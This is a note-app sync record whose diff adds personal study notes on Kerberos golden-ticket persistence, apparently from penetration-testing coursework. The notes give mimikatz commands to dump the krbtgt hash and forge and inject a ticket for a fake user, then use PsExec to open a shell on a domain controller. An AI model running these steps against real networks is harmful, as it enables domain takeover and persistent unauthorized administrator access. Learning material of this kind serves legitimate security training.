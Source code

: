 id: 21e6d72f57e74d579fd78d0a2c478cc4
parent_id: 9ba90d0fce4d40bea65392fdd18986e9
item_type: 1
item_id: 8ceefc0c650f4adbb0c0023984623b15
item_updated_time: 1643596975170
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"specific persistence\"],[1,\"\\\n\\\n# Golden Tickets\\\n\\\nIf we are able to get the krbtgt password hash, we can create our own 'self-made' custom TGTs (golden tickets)\\\n\\\nE.g. we can create a TGT stating a non-privileged user is actually a member of the Domain Admins group\\\n\\\n![ab79b20e211fab5caae0a0e31a4e568c.png](:/115e2884e2c94f51980d5dd06780dd49)\\\n\\\nIn mimikatz (without admin privilege)\\\n\\\n> privilege::debug\\\n> \\\n> lsadump::lsa /patch\\\n\\\n![511a148ae8355b0fd2e6189df8ed47d8.png](:/5bf844bdacbe4b35b6a823ee7a68af41)\\\n\\\nOnce done with obtaining the krbtgt hash, we create the golden ticket for the user we want to have it\\\n\\\n> kerberos::purge\\\n> \\\n> whoami /user # Get SID; Actually shown in Domain record during lsadump::lsa (shown above)\\\n> \\\n> kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt\\\n> \\\n> misc::cmd # to allow cmd.exe to be executed\\\n\\\ntake note of the User ID and Group ID it is in the admin groups\\\n\\\nThen use PsExec\\\n\\\n> pxexec.exe \\\\\\\\\\\\dc01 cmd.exe\\\n\\\n![d71c5b92c386c9d7123f95ac1774d0cf.png](:/6d68a47fc3a0446a91ec14e0916b7728)\"]],\"start1\":110,\"start2\":110,\"length1\":20,\"length2\":1094}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-31T02:43:37.344Z
created_time: 2022-01-31T02:43:37.344Z
type_: 13